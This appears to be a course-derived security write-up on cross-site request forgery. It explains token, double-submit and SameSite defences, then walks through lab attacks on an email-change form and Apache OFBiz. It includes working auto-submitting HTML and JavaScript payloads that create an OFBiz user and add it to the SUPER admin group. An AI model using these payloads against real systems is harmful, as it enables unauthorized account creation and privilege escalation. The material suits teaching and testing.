



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# CSRF


**Cross-Site Request Forgery (CSRF)** tricks a user's browser into making unwanted actions on a trusted site where they are logged in via a phishing link or malware.



Unauthorized actions, such as transferring money or changing account details, can be performed without the user's knowledge.



Use CSRF tokens, ensure secure cookie settings, and implement same-site request headers to verify the legitimacy of requests.


## General

One way to mitigate CSRF attacks is using a **CSRF token**, a unique value submitted by the user, typically as a hidden input field, but this adds overhead and usability concerns due to the need to track tokens. The **cookie-to-header** approach uses client-side JavaScript to send the token as a request header, but it can be bypassed if an attacker gains access to the cookie via XSS.&#x20;


**XSS flaws can bypass CSRF protections**, as any requests generated by the XSS payload are considered part of the domain.


The **double-submit** approach uses a hidden input field with the CSRF token, validating that the cookie value matches the input field value without needing JavaScript access to the cookie or tracking generated tokens. If an application's form elements lack these mitigations or `SameSite` cookies, it is vulnerable to CSRF, which can be detected through source code inspection.

## Basic

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This app gives the user the option to update his email after they logged in (Figure 1).

<figure><figcaption><p>Figure 1: Exploring the application's functionality.</p></figcaption></figure>

We can see that there is no [anti-CRSF token](https://developer.mozilla.org/en-US/docs/Web/Security/Practical_implementation_guides/CSRF_prevention#implement_an_anti-csrf_token_along_with_samesitestrict) and the current cookie does not have the [`SameSite`](../common-findings/cookie-flags.md) flag set. Thus, we can try generate a CRSF PoC using Burp Suite Pro's engagement tool (Figure 2.1 & 2.2). This tool takes the HTML code related to the update email `form` (Figure 2.3), removes the unecessary cosmetic elements, adds the `html` and `body` tags, and adds a `script` so the payload gets executed upon loading.

<figure><figcaption><p>Figure 2: Generating a CSRF PoC with Burp's engagement tool.</p></figcaption></figure>

Next, we can update the payload's `value` parameter to an email we control, copy the HTML code into a file (`csrf.html`), and find a way to serve this file to our target (Figure 3).

<figure><figcaption><p>Figure 3: Updating the target's email to a malicious address. </p></figcaption></figure>

## Token Bypass

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time the application implements a hidden CSRF token (Figure 4.1) which is supposed to mitigate such an attack by using a unique token on each request. We can check this token for [various flaws](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/cross-site-request-forgery-csrf#checklist), but in this case, it seems that the application just checks that a token exists and nothing more. Thus, we can generate a CSRF payload that includes a random-value CSRF token (Figure 4.2) and perform a CSRF attack (Figure 4.3).

<figure><figcaption><p>Figure 4: Bypassing a CSRF token and executing a succsseful CSRF attack.</p></figcaption></figure>

## Apache OFBiz

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

### Enumeration

Inspecting the login request response's cookies we can see that there is **no CSRF token** and the `JSESSIONID` cookie **does not have the `SameSite` flag set** (Figure 5).

<figure><figcaption><p>Figure 5: Inspecting the response's cookies.</p></figcaption></figure>

One interesting functionality to target with CSRF flaws is **user creation**. If we can force an admin to execute our malicious request, we could create users with elevated privileges. The `POST` request used for creating a new user, does not seem to include any CSRF-related parameters (Figure 6).

<figure><figcaption><p>Figure 6: Inspecting the user creation request.</p></figcaption></figure>

Similarly, the `POST` request for adding the user to the `SUPER` group does not include any CSRF-related parameters either (Figure 7).

<figure><figcaption><p>Figure 7: Inspecting the request that elevates user privileges.</p></figcaption></figure>

### Exploitation <a href="#exploitation-1" id="exploitation-1"></a>

At a high level, we want to copy the application's HTML forms into pages hosted on our server. We will fill the forms with our own data and make them submit on page load, so the victim must only open the page. In this case, our goal is to create a new user and then assign them the `SUPER` privilege. We will start by creating the basic structure of a form element (`ofbiz.html`) under `/var/www/html` so we can server it using Apache.


```html
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
  </form>
</body>
</html>
```


Next, we need to add the `input` elements. The `POST` request that our page generates needs to match the baseline request from the app. We need to add input elements, one for each key-value pair in the original request, inside the form element.


```html
<html>
  <body onload="document.forms['csrf'].submit()">
    <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
      <input type="hidden" name="enabled">
      <input type="hidden" name="partyId">
      <input type="hidden" name="userLoginId" value="csrftest">
      <input type="hidden" name="currentPassword" value="password">
      <input type="hidden" name="currentPasswordVerify" value="password">
      <input type="hidden" name="passwordHint">
      <input type="hidden" name="requirePasswordChange" value="N">
      <input type="hidden" name="externalAuthId">
      <input type="hidden" name="securityQuestion">
      <input type="hidden" name="securityAnswer">
    </form>
  </body>
</html>
```


When we visit `/localhost/ofbiz.html` a `GET` request will be initiated, which will then create a `POST` request to `ofbiz:8443/webtools/control/createUserLogin`, and the `csrftest` user will be created. Note that our cookies were included within this request and that the `Origin` and `Referer` headers let us know that the request came from `localhost` (Figure 6).

<figure><figcaption><p>Figure 8: Creating the <code>csrftest</code> user.</p></figcaption></figure>

Next, we will go through the same process for the privilege escalation step.


```html
<html>
        <body onload="document.forms['csrf'].submit()">
                <form action="https://ofbiz:8443/webtools/control/addUserLoginToSecurityGroup" method="post" name="csrf">
                        <input type="hidden" name="groupId" value="SUPER">
                        <input type="hidden" name="userLoginId" value="csrftest">
                        <input type="hidden" name="fromDate_i18n">
                        <input type="hidden" name="fromDate">
                        <input type="hidden" name="thruDate_i18n">
                        <input type="hidden" name="thruDate">
                </form>
        </body>
</html>
```


Now, we have to combine both forms and have them submitted sequentially via implementing some JavaScript code. We will also change the username name to `crsftestuser` to differentiate from the previous user.


This approach is not ideal as some **JavaScripts calls can be asynchronous**, meaning that the`csrf2` form could be submitted before the`csrf` form. In this case, an extra line was added that sets up a 1 second delay between the two requests.



```html
<html>
<head>
<script>
function submitForms() {
  document.forms['csrf'].submit();
  setTimeout(function() {document.forms['csrf2'].submit();}, 1000);
  return false;
}
</script>
</head>

<body onload="submitForms();" >

<form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf" target="_blank">
  <input type="hidden" name="enabled">
  <input type="hidden" name="partyId">
  <input type="hidden" name="userLoginId" value="csrftestuser">
  <input type="hidden" name="currentPassword" value="password">
  <input type="hidden" name="currentPasswordVerify" value="password">
  <input type="hidden" name="passwordHint">
  <input type="hidden" name="requirePasswordChange" value="N">
  <input type="hidden" name="externalAuthId">
  <input type="hidden" name="securityQuestion">
  <input type="hidden" name="securityAnswer">
</form>

<form action="https://ofbiz:8443/webtools/control/addUserLoginToSecurityGroup" method="post" name="csrf2" target="_blank">
  <input type="hidden" name="groupId" value="SUPER">
  <input type="hidden" name="userLoginId" value="csrftestuser">
  <input type="hidden" name="fromDate_i18n">
  <input type="hidden" name="fromDate">
  <input type="hidden" name="thruDate_i18n">
  <input type="hidden" name="thruDate">
</form>

</body>
</html>
```


In visiting `localhost/ofbiz2.html`, two new tabs open up and the payload is successfully executed (Figure 9).

<figure><figcaption><p>Figure 9: Creating a new user and adding them to the <code>SUPER</code> group.</p></figcaption></figure>

Instead of using two forms, we can make requests directly without navigating the browser away from the payload page. In brief, what the below payload does, is creating two functions, one for each `POST` request, where it includes the privilege escalation request within the user creation request to make sure that the execution order is correct. Finally, it explicitly calls the first function at the end, so it is auto-called on page load.


```html
<html>
<head>
<script>
  var username = "csrftestv2";
  var password = "password";
  var host = "https://ofbiz:8443";
  var create_url = "/webtools/control/createUserLogin";
  var admin_url = "/webtools/control/userLogin_addUserLoginToSecurityGroup";
  var create_params = "enabled=&partyId=&userLoginId=" + username + "&currentPassword=" + password + "&currentPasswordVerify=" + password + "&passwordHint=hint&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=";
  var admin_params = "userLoginId=" +username + "&partyId=&groupId=SUPER&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=";

  function send_create() { 
    console.log("Creating user..."); 
    fetch(host+create_url, {
      method: 'POST',
      mode: 'no-cors',
      credentials: 'include',
      headers: {'Content-Type': 'application/x-www-form-urlencoded'},
        body : create_params }
      ).then(function(response) {
        send_admin();
	});
  }

  function send_admin() { 
    console.log("Adding admin role..."); 
    fetch(host+admin_url, {
      method: 'POST',
      mode: 'no-cors',
      credentials: 'include',
      headers: {'Content-Type': 'application/x-www-form-urlencoded'},
        body : admin_params }
      ).then(console.log("Should be done..."));
    }

  send_create();
</script>
</head>
<body></body>
</html>
```


However, when the payload is executed, the correct requests are made, but we are not able to use the current user's session cookies (Figure 10).

<figure><figcaption><p>Figure 10: Our payload is unable to use the current user's cookies.</p></figcaption></figure>

The cause of the problem can be identified if we inspect that `JSESSIONID` set flags during a successful login: the `SameSite` flag is not set, so its value defaults to `Lax` which disallow transferring the cookie on cross-site requests (Figure 11 & 12).

<figure><figcaption><p>Figure 11: Inspecting the flags set for the <code>JSESSIONID</code> cookie via Burp.</p></figcaption></figure>

<figure><figcaption><p>Figure 12: Inspecting the flags set for the <code>JSESSIONID</code> cookie via Chrome.</p></figcaption></figure>
